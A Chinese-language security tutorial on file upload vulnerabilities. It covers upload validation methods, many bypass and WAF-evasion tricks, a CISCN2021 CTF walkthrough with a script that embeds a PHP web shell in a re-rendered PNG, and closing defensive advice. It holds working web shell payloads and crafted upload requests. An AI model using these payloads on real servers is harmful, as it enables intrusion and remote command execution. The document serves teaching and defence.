## 0x01 概要说明

文件上传漏洞可以说是日常渗透测试用得最多的一个漏洞，因为用它获得服务器权限最快最直接。此篇文章主要分三部分：总结一些常见的上传文件校验方式，以及绕过校验的各种姿势，最后对此漏洞提几点防护建议。

攻击方法：



## 0x02 文件上传校验姿势

​    \1. 客户端javascript校验（一般只校验后缀名）

   \2.  服务端校验

​        ·文件头content-type字段校验（image/gif）

​        ·文件内容头校验（GIF89a）

​        ·后缀名黑名单校验

​        · 后缀名白名单校验

​        ·自定义正则校验

   \3. WAF设备校验（根据不同的WAF产品而定）

### 1.客户端校验

一般都是在网页上写一段javascript脚本，校验上传文件的后缀名，有白名单形式也有黑名单形式。

判断方式：在浏览加载文件，但还未点击上传按钮时便弹出对话框，内容如：只允许上传.jpg/.jpeg/.png后缀名的文件，而此时并没有发送数据包。

### 2.服务端校验

#### 2.1 content-type字段校验

这里以PHP代码为例，模拟web服务器端的校验代码

```php
<?php 
  if($_FILES['userfile']['type'] != "image/gif")  #这里对上传的文件类型进行判断，如果不是image/gif类型便返回错误。
       { 
          echo "Sorry, we only allow uploading GIF images";
           exit;
        } 
$uploaddir = 'uploads/'; 
$uploadfile = $uploaddir . basename($_FILES['userfile']['name']);
  if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile))
        { 
          echo "File is valid, and was successfully uploaded.\n";
                
        } 
  else { 
    echo "File uploading failed.\n";
       } 
?>
```

可以看到代码对上传文件的文件类型进行了判断，如果不是图片类型，返回错误。

#### 2.2 文件头校验

可以通过自己写正则匹配，判断文件头内容是否符合要求，这里举几个常见的文件头对应关系：

```php
（1） .JPEG;.JPE;.JPG，”JPGGraphic File”
（2） .gif，”GIF 89A”
（3） .zip，”Zip Compressed”
（4） .doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile”
```

## 0x03 文件上传绕过校验姿势

```php
   1. 客户端绕过（抓包改包）
   2. 服务端绕过
        ·文件类型
        ·文件头
        ·文件后缀名
    3.配合文件包含漏洞绕过
    4.配合服务器解析漏洞绕过
    5.CMS、编辑器漏洞绕过
    6.配合操作系统文件命名规则绕过
    7.配合其他规则绕过
    8.WAF绕过
```

### 1.客户端绕过

可以利用burp抓包改包，先上传一个gif类型的木马，然后通过burp将其改为asp/php/jsp后缀名即可。

### 2.服务端绕过

#### 2.1 文件类型绕过

我们可以通过抓包，将content-type字段改为image/gif

```php
POST /upload.php HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: TE, close
Host: localhost
User-Agent: libwww-perl/5.803
Content-Type: multipart/form-data; boundary=xYzZY
Content-Length: 155
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: image/gif (原为 Content-Type: text/plain)
  
<?php system($_GET['command']);?> --xYzZY-
```

#### 2.2 文件头绕过

在木马内容基础上再加了一些文件信息，有点像下面的结构

```php
GIF89a<?php phpinfo(); ?>
```

#### 2.3 文件后缀名绕过

前提：黑名单校验

黑名单检测：一般有个专门的 blacklist 文件，里面会包含常见的危险脚本文件。

绕过方法：

（1）找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类

（2）可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类

能被解析的文件扩展名列表：

```php
jsp jspx jspf
asp asa cer aspx
php php php3 php4
exe exee
```

### 3.配合文件包含漏洞

前提：校验规则只校验当文件后缀名为asp/php/jsp的文件内容是否为木马。

绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）

（1）先上传一个内容为木马的txt后缀文件，因为后缀名的关系没有检验内容；

（2）然后再上传一个.php的文件，内容为

```php
<?php Include(“上传的txt文件路径”);?>
```

此时，这个php文件就会去引用txt文件的内容，从而绕过校验，下面列举包含的语法：

```php
#PHP 
<?php Include("上传的txt文件路径");?> 
#ASP 
<!--#include file="上传的txt文件路径" --> 
#JSP 
<jsp:inclde page="上传的txt文件路径"/> or <%@include file="上传的txt文件路径"%>
```

### 4.配合服务器解析漏洞

http://www.cnblogs.com/shellr00t/p/6426856.html

### 5.配合操作系统文件命令规则

**（1）上传不符合windows文件命名规则的文件名**

```php
　　test.asp.
　　test.asp(空格)
　　test.php:1.jpg
　　test.php:: D A T A
    shell.php:: DATA　　
    shell.php::DATA…….
```

会被windows系统自动去掉不符合规则符号后面的内容。

**（2）linux下后缀名大小写**

在linux下，如果上传php不被解析，可以试试上传pHp后缀的文件名。

### 6.CMS、编辑器漏洞

（1）CMS漏洞：比如说JCMS等存在的漏洞，可以针对不同CMS存在的上传漏洞进行绕过。

（2）编辑器漏洞：比如FCK，ewebeditor等，可以针对编辑器的漏洞进行绕过。

### 7.配合其他规则

##### **（1）0x00截断：基于一个组合逻辑漏洞造成的，通常存在于构造上传文件路径的时候**

```php
　　test.php(0x00).jpg
　　test.php%00.jpg
　　路径/upload/1.php(0x00)，文件名1.jpg，结合/upload/1.php(0x00)/1.jpg
```

伪代码演示：

```php
name= getname(httprequest) //假如这时候获取到的文件名是 help.asp.jpg(asp 后面为 0x00)
type =gettype(name)        //而在 gettype()函数里处理方式是从后往前扫描扩展名，所以判断为 jpg
if(type == jpg)
   SaveFileToPath(UploadPath.name, name)   //但在这里却是以 0x00 作为文件名截断
//最后以 help.asp 存入路径里
```

##### （2）.htaccesss

上传当前目录的.htaccess 文件

例如内容为：

```php
 AddType application/x-http-php .jpg   (上传的jpg 均以php执行)
```

把.htaccess 上传后，且上传成功后，再上传内容为一句话的jpg文件

## 8.二次渲染绕过

直接例题讲解 [CISCN2021 Quals]upload

upload.php，中限制了图片的大小，长宽，以及一些字母。

```php
<?php
#Quals]upload 
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="upload") {
    if ($_FILES['postedFile']['size'] > 1024*512) {
        die("这么大个的东西你是想d我吗？");
    }
    $imageinfo = getimagesize($_FILES['postedFile']['tmp_name']);#获取图片大小
    if ($imageinfo === FALSE) {
        die("如果不能好好传图片的话就还是不要来打扰我了");
    }
    if ($imageinfo[0] !== 1 && $imageinfo[1] !== 1) {#图片长宽为1
        die("东西不能方方正正的话就很讨厌");
    }
    $fileName=urldecode($_FILES['postedFile']['name']);
    if(stristr($fileName,"c") || stristr($fileName,"i") || stristr($fileName,"h") || stristr($fileName,"ph")) {#过滤关键字母,忽略大小写
        die("有些东西让你传上去的话那可不得了");
    }
    $imagePath = "image/" . mb_strtolower($fileName);#使字符串小写，这边encoding参数被省略。
    if(move_uploaded_file($_FILES["postedFile"]["tmp_name"], $imagePath)) {#将上传的文件移动到image位置下。
        echo "upload success, image at $imagePath";
    } else {
        die("传都没有传上去");
    }
}
```

`$_FILES`会把上传的文件的各个部分保存到相应的键上，例如：第一个`[]`内就是在客户端的定位，本题是`postedFile`，也就是说本题要构造上传页面，`<input type="file" name="postedFile">`，要这样提交。

```php
<input type="file" name="userfile">
$_FILES数组内容如下:
$_FILES['userfile']['name']
客户端机器文件的原名称。
$_FILES['userfile']['type'] 
文件的 MIME 类型，需要浏览器提供该信息的支持，例如“image/gif”。
$_FILES['userfile']['size'] 
已上传文件的大小，单位为字节。
$_FILES['userfile']['tmp_name'] 
文件被上传后在服务端储存的临时文件名。
$_FILES['userfile']['error'] 
和该文件上传相关的错误代码。['error'] 是在 PHP 4.2.0 版本中增加的。
注: 在 PHP 4.1.0 版本以前该数组的名称为 $HTTP_POST_FILES，它并不像 $_FILES 一样是自动全局变量。PHP 3 不支持 $HTTP_POST_FILES 数组。
```

`getimagesize`在接受任何图像文件的时候会把文件参数以数组保存。

```php
Array
(
    [0] => 290	#图像宽度的像素值
    [1] => 69	#图像高度的像素值
    [2] => 3	#图像的类型
    [3] => width="290" height="69"	#宽度和高度的字符串
    [bits] => 8	#图像的每种颜色的位数，二进制格式
    [mime] => image/png	#给出的是图像的 MIME 信息，此信息可以用来在 HTTP Content-type 头信息中发送正确的信息
)
```

那么第三个`if ($imageinfo[0] !== 1 && $imageinfo[1] !== 1)`可以这么绕过

```php
#define width 1
#define height 1
```

因为它过滤了c，i，h，所以常用的后缀都无法使用了，例如php，phtml，.htaccess，.user.ini等等，到这边我就蒙了，扫目录也没扫出其他的。看了大佬的wp，原来还有个页面/example.php。

```php
<?php
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="poc") {
    $zip = new \ZipArchive();
    $name_for_zip = "example/" . $_POST["file"];
    if(explode(".",$name_for_zip)[count(explode(".",$name_for_zip))-1]!=="zip") {#文件类型不等于zip
        die("要不咱们再看看？");
    }
    if ($zip->open($name_for_zip) !== TRUE) {
        die ("都不能解压呢");
    }

    echo "可以解压，我想想存哪里";
    $pos_for_zip = "/tmp/example/" . md5($_SERVER["REMOTE_ADDR"]);
    $zip->extractTo($pos_for_zip);#解压缩文件
    $zip->close();
    unlink($name_for_zip);
    $files = glob("$pos_for_zip/*");#寻找匹配的路径
    foreach($files as $file){
        if (is_dir($file)) {#判断给定文件名是否是一个目录
            continue;
        }
        $first = imagecreatefrompng($file);#由文件或 URL 创建一个新图象。
        $size = min(imagesx($first), imagesy($first));#找出长或宽的最小值
        $second = imagecrop($first, ['x' => 0, 'y' => 0, 'width' => $size, 'height' => $size]);#裁剪图像按指定的格式
        if ($second !== FALSE) {
            $final_name = pathinfo($file)["basename"];#返回文件路径的信息
            imagepng($second, 'example/'.$final_name);#以 PNG 格式将图像输出到浏览器或文件
            imagedestroy($second);#销毁一图像
        }
        imagedestroy($first);
        unlink($file);
    }

}
```

这个页面的功能主要就是解压缩zip格式文件，并且重新渲染png文件也就是二次渲染。

那么也就是上传一个zip文件，但在upload.php中把i过滤了，可以用利用`mb_strtolower`解析漏洞来unicode字符代替绕过。

```php
可以利用一些unicode字符绕过。
<?php
var_dump(mb_strtolower('İ')==='i');
?>
结果为true
且前面还进行了url解密。所以可以用%c4%b0代替'İ'字符
```

一看到`imagecreatefrompng`就知道是二次渲染，和[ctfshow](https://so.csdn.net/so/search?q=ctfshow&spm=1001.2101.3001.7020)文件上传中的一题差不多，也就是二次渲染绕过，这边我就直接用了。

运行这个脚本(php7)就会在当前目录自动生成一个带shell的png图片，shell是`<?=$_GET[0]($_POST[1]);`。

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
#<?=$_GET[0]($_POST[1]);
?>
```

然后我们把生成的图片的png后缀改为php，然后压缩为zip，构造上传页面上传，下面就是一个上传页面。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://85563469-3efd-4f10-95f4-9efac7955a50.node4.buuoj.cn:81/upload.php?ctf=upload" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="postedFile" id="postedFile"><br><!--name要根据题目的源码来调节-->
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

然后我们就可以抓包，修改内容来绕过长宽限制，以及字母过滤。



上传成功后，可以看到上传目录为`image/test.zip`

然后解压一下，它会显示可以解压且会保存，`imagepng($second, 'example/'.$final_name)`这边的final_name是我们解压后文件的名字。



最后到/example/1.php目录下执行shell

```php
get:/example/1.php?0=system
post:1=cat /etc/fllagggaaaa/ejklwfthreu8rt/fgrtgergyer/ergerhrtytrh/rtehtrhytryhre/gfhtryrtgrewfre34t/t43ft34f/flag11e3kerjh3u
```



### 8.WAF绕过

#### 8.1 垃圾数据

有些主机WAF软件为了不影响web服务器的性能，会对校验的用户数据设置大小上限，比如1M。此种情况可以构造一个大文件，前面1M的内容为垃圾内容，后面才是真正的木马内容，便可以绕过WAF对文件内容的校验；



当然也可以将垃圾数据放在数据包最开头，这样便可以绕过对文件名的校验。



可以将垃圾数据加上Content-Disposition参数后面，参数内容过长，可能会导致waf检测出错。

#### 8.2 filename

针对早期版本安全狗，可以多加一个filename



或者将filename换位置，在IIS6.0下如果我们换一种书写方式，把filename放在其他地方：



#### 8.3 POST/GET

有些WAF的规则是：如果数据包为POST类型，则校验数据包内容。

此种情况可以上传一个POST型的数据包，抓包将POST改为GET。

#### 8.4 以上方式

针对WAF，以上介绍的服务器解析漏洞、文件包含漏洞等都可以尝试绕过。

#### 8.5 利用waf本身缺陷

##### 删除实体里面的Conten-Type字段



第一种是删除Content整行，第二种是删除C后面的字符。删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意，双引号要跟着c.php。

```php
正常包：Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
构造包：Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
```

##### 删除Content-Disposition字段里的空格



##### 增加一个空格导致安全狗被绕过案列：

```php
Content-Type: multipart/form-data; boundary=—————————4714631421141173021852555099
```

尝试在boundary后面加个空格或者其他可被正常处理的字符：

```php
boundary= —————————47146314211411730218525550
```

##### 修改Content-Disposition字段值的大小写



##### Boundary边界不一致

每次文件上传时的Boundary边界都是一致的：

```php
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099
Content-Length: 253
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream <%eval request("a")%> -----------------------------4714631421141173021852555099--</pre>
```

但如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段Boundary不一致使得waf认为这段数据是无意义的，可是容器并没有那么严谨：

Win2k3 + IIS6.0 + ASP



##### 文件名处回车



##### 多个Content-Disposition

在IIS的环境下，上传文件时如果存在多个Content-Disposition的话，IIS会取第一个Content-Disposition中的值作为接收参数，而如果waf只是取最后一个的话便会被绕过，Win2k8 + IIS7.0 + PHP



##### 利用NTFS ADS特性

ADS是NTFS磁盘格式的一个特性，用于NTFS交换数据流。在上传文件时，如果waf对请求正文的filename匹配不当的话可能会导致绕过



##### 文件重命名绕过

如果web程序会将filename除了扩展名的那段重命名的话，那么还可以构造更多的点、符号等等。

##### 特殊的长文件名绕过

文件名使用非字母数字，比如中文等最大程度的拉长，不行的话再结合一下其他的特性进行测试：

```php
shell.asp;王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王.jpg
```

##### 反删除

将file1改成了file4，这样就不会把这个文件删除了。（JCMS漏洞）

## 0x04 漏洞修复

#### 1.服务器配置不当:

重新配置好服务器。服务器PUT方法配置不当。

#### 2. 开源编辑器上传漏洞:

若新版编辑器已修复漏洞，请更新编辑器版本。

#### 3.本地文件上传限制被绕过:

在服务器后端对上传的文件迚行过滤。

#### 4.设置文件上传的目录设置为不可执行

只要web容器无法解析该目录下面的文件，卲使攻击者上传了脚本文件，服务器本身也不会受到影响，因此这一点至关重要。

#### 5.判断文件类型

在判断文件类型时，可以结合使用MIME Type、后缀检查等方式。在文件类型检查中，强烈推荐白名单方式，黑名单的方式已经无数次被证明是不可靠的。此外，对于图片的处理，可以使用压缩函数或者 resize 函数，在处理图片的同时破坏图片中可能包含的HTML代码。

#### 6.使用随机数改写文件名和文件路径

文件上传如果要执行代码，则需要用户能够访问到这个文件。在某些环境中，用户能上传，但不能访问。如果应用了随机数改写了文件名和路径，将极大地增加攻击的成本。再来就是像 shell.php.rar.rar 和 crossdomain.xml 这种文件，都将因为重命名而无法攻击。

#### 7.单独设置文件服务器的域名

由于浏览器同源策略的关系，一系列客户端攻击将失效，比如上传 crossdomain.xml、上传包含 Javascript 的 XSS 利用等问题将得到解决。

​    文件扩展名服务端白名单校验。

​    文件内容服务端校验。

​    上传文件重命名。

​    隐藏上传文件路径。

以上几点，可以防御绝大多数上传漏洞，但是需要跟服务器容器结合起来。如果解析漏洞依然存在，那么没有绝对的安全。